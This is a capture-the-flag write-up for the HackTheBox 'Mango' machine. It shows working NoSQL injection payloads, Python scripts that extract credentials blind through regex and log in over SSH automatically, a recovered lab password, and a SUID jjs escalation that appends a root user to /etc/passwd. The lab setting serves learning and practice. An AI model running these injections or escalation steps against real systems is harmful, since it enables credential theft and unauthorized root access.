

Mango was an awesome box from HackTheBox. It's Linux and Medium Level. I enjoyed it a lot because I learned better how to do a Blind SQLInjection. The scripting part was really good. 

The first shell you got after a NoSQL Blind Injection, once you got the mango password, you ssh in. Then you use the admin credentials to start your privilege escalation, to root you need to explore a SUID jjs.

The auto script for the first shell you can find on the post.

Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.162
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.

When tryied to access 10.10.10.162 on the browser.


Just Forbidden error

## Port 443

Accessing the port 443 we can see a certificate


And accepting it we can see a page similar to google


Enumerating it, most of this links are dead

The only working in `https://10.10.10.162/analytics.php`

Which shows a graph


### staging-order.mango.htb

Addind the subdomain we got on the certificate https to our `/etc/hosts`


And accessing it on the browser we got a new page


Weird, when we try to login with an invalid password and user, we got a 200, I presume that a valid login is a 302.


`Gobuster` and `Wfuzz` doesn’t find any other interesting directories or pages so let's focus on this login page.

Let's try all kind of injection to bypass the login and get access to the page

After spend a long time trying all kind of login bypasses

For example this wfuzz command with a [List](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)

```sh
wfuzz -z file,list.txt -d "username=FUZZ&password=0x4rt3mis&login=login" --hc 200 https://staging-order.mango.htb/
```


No success.

What I tried and worked was the [NOSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#exploits)

`username[$ne]=0x4rt3mis&password[$ne]=0x4rt3mis&login=login`

And we got a 302


We got the Auth Bypass. Yep, we could see the MongoDB and possibly it's going to be NoSQL, since it's the main NoSQL platform.

## NOSQL Explanation

There a tons of NoSQL platforms on the web. The definition we can have here is this:

[NoSQL 1](https://www.mongodb.com/nosql-explained)

```
When people use the term “NoSQL database,” they typically use it to refer to any non-relational database. Some say the term “NoSQL” stands for “non SQL” while others say it stands for “not only SQL.” Either way, most agree that NoSQL databases are databases that store data in a format other than relational tables.
```

[NoSQL 2](https://www.zdnet.com/article/what-is-nosql-and-why-do-you-need-it/)

A NoSQL database is exactly the type of database that can handle the sort of unstructured, messy and unpredictable data that our system of engagement requires. NoSQL is a whole new way of thinking about a database. NoSQL is not a relational database. It is not built on tables and does not employ SQL to manipulate data.

We got different types of NoSQL databases


## Blind NOSQL

Let's summarize what we already knows about the web app:

-> We can do NoSQL injection.

-> Successful injection will return 302 Found.


Using `$regex` from the github post, we will be able to submit a regex by injection. If the regex have a match the server will return 302 Found. This will allows us to extract data.

For example if sending the following payload

`username[$regex]=^a&password[$ne]=test `

Return:

```
302 Found means that the regex matched, so username start with a a.
200 OK the regex did not match.
```

With this in mind we can start trying to match the next character, ^ad, ^adm... and go on until the hole username... got it?

Let's built our script in python to bruteforce the username and the password


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# NOSQL User Exfiltrate - Mango HackTheBox
# Date: 13/09/21

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def userExtract(rhost):
    url = "http://%s" %rhost
    global username
    username = ""
    password = ""
    list = string.ascii_letters
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = {
                "username[$regex]": "^"+username+c,
                #"username[$regex]": "^(?!admin)"+username+c,
                "password[$ne]": password
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {username+c}")
                username += c
                iterator = 0
            else:
                iterator = iterator + 1
    print("[+] Username Fouuuund!! : %s [+]" %username)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Let's exfiltrate the admin user
    userExtract(rhost)
if __name__ == '__main__':
    main()
```

With the same logic in mind, we can put it to extract the admin password


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# NOSQL User and Passwod Exfiltrate - Mango HackTheBox
# Date: 13/09/21

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def userExtract(rhost):
    url = "http://%s" %rhost
    global username
    username = ""
    password = ""
    list = string.ascii_letters
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = {
                "username[$regex]": "^"+username+c,
                #"username[$regex]": "^(?!admin)"+username+c,
                "password[$ne]": password
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {username+c}")
                username += c
                iterator = 0
            else:
                iterator = iterator + 1
    print("[+] Username Fouuuund!! : %s [+]" %username)

# Function to extract the password from the user
def passExtract(rhost,username):
    url = "http://%s" %rhost
    password = ""
    list = string.printable
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            # We skip characters that will be interpreted as regex
            if c in ['*', '+', '.', '?', '|', '$']:
                iterator = iterator + 1
                continue
            payload = {
                "username": username,
                "password[$regex]": "^"+password+c
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {password+c}")
                password += c
                iterator = 0
            else:
                iterator = iterator + 1
    print("[+] Password Fouuuuund!!!!! : %s [+]" %password)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target
    '''Here we call the functions'''
    # Let's exfiltrate the admin user
    userExtract(rhost)
    # Let's get the password
    passExtract(rhost,username)
if __name__ == '__main__':
    main()
```

Ok, now that we have an user and a password, let's try to ssh in


No success... We could try to find another user on the server.

A small difference on the script

```py
- "username[$regex]": "^"+username+c,
+ "username[$regex]": "^(?!admin)"+username+c,
```

It's to find any other user unless the admin one. When we run again we found another user and pass


Got it!

# Mango SSH

Once we got credentials...

`mango:h3mXK8RhU~f{]f5H`

Now, we ssh into the box


We can automate it too


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# NOSQL User and Passwod Exfiltrate and SSH Login Auto - Mango HackTheBox
# Date: 13/09/21

import argparse
import requests
import sys
import string
import os
import subprocess

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def userExtract(rhost):
    url = "http://%s" %rhost
    global username
    username = ""
    password = ""
    list = string.ascii_letters
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = {
                #"username[$regex]": "^"+username+c,
                "username[$regex]": "^(?!admin)"+username+c,
                "password[$ne]": password
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {username+c}")
                username += c
                iterator = 0
            else:
                iterator = iterator + 1
    print("[+] Username Fouuuund!! : %s [+]" %username)

# Function to extract the password from the user
def passExtract(rhost,username):
    url = "http://%s" %rhost
    global password
    password = ""
    list = string.printable
    iterator = 0
    while(iterator < len(list)):
        for c in list[iterator]:
            # We skip characters that will be interpreted as regex
            if c in ['*', '+', '.', '?', '|', '$']:
                iterator = iterator + 1
                continue
            payload = {
                "username": username,
                "password[$regex]": "^"+password+c
            }
            r = requests.post(url, data=payload, allow_redirects=False, proxies=proxies)
            if r.status_code == 302:
                print(f"[+] Found one more char : {password+c}")
                password += c
                iterator = 0
            else:
                iterator = iterator + 1
    print("[+] Password Fouuuuund!!!!! : %s [+]" %password)
    
def sshLogin(rhost,username,password):
    print("[+] Now, let's ssh in !!!! [+]")
    out = os.popen("getent hosts %s | awk '{ print $1 }'" %rhost).read().rstrip()
    command = 'sshpass -p %s ssh %s@%s /bin/bash' %(password,username,out)
    os.system(command)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    
    '''Here we call the functions'''
    # Let's exfiltrate the admin user
    userExtract(rhost)
    # Let's get the password
    passExtract(rhost,username)
    # SSH In
    sshLogin(rhost,username,password)
if __name__ == '__main__':
    main()
```

# Mango -> Admin

Now, let's start our privilege escalation

With the admin credentials, we can su in this user


# Admin -> Root

Now, let's hunt root access

One of the first thing I always like to run is the [linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh)


We found `jjs` with `suid` enabled


On [GTFobins](https://gtfobins.github.io/gtfobins/jjs/) we find a way to become root with it


Let's add one passwd in the /etc/passwd file to become root

```sh
openssl passwd -1
```


Now, let's explore

```js
$ jjs
var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/etc/passwd", true);
fw.write("0x4rt3mis:$1$0utC/RFH$0Q1XJJx9b1wmDC/MdbqVe.:0:0:root:/root:/bin/bash\n");
fw.close();
```


Now, become root with su

